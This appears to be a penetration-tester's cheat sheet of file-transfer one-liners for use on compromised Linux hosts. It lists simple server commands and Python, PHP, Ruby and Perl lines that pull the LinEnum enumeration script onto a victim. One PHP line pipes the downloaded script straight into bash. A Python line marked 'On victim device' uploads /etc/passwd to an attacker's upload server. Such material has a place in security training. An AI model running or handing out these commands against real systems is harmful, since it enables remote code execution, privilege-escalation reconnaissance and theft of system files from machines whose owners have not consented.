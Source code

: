 
## Just simple servers

Python
```
python3 -m http.server
```

```
python2.7 -m SimpleHTTPServer
```

PHP Server 
```shell-session
php -S 0.0.0.0:8000
```

Ruby Server
```shell-session
ruby -run -ehttpd . -p8000
```

## PYthon

when preinstalled tools are not available 

Python2 - Download 
```shell-session
python2.7 -c 'import urllib;urllib.urlretrieve ("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh", "LinEnum.sh")'
```

Python3 - Download 
```shell-session
python3 -c 'import urllib.request;urllib.request.urlretrieve("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh", "LinEnum.sh")'
```

Python3 - Uploading to python server
On Attackbox 
```shell-session
python3 -m uploadserver 
```

On victim device 
```shell-session
python3 -c 'import requests;requests.post("http://192.168.49.128:8000/upload",files={"files":open("/etc/passwd","rb")})'
```
# PHP

simple downloads
```shell-session
php -r '$file = file_get_contents("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh"); file_put_contents("LinEnum.sh",$file);'
```

```shell-session
php -r 'const BUFFER = 1024; $fremote = 
fopen("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh", "rb"); $flocal = fopen("LinEnum.sh", "wb"); while ($buffer = fread($fremote, BUFFER)) { fwrite($flocal, $buffer); } fclose($flocal); fclose($fremote);'
```

php download a file and pipe it to bash 
similar to fileless examples 
```shell-session
php -r '$lines = @file("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh"); foreach ($lines as $line_num => $line) { echo $line; }' | bash
```


# Ruby 
download 
```shell-session
ruby -e 'require "net/http"; File.write("LinEnum.sh", Net::HTTP.get(URI.parse("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh")))'
```

Perl 
```shell-session
perl -e 'use LWP::Simple; getstore("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh", "LinEnum.sh");'
```
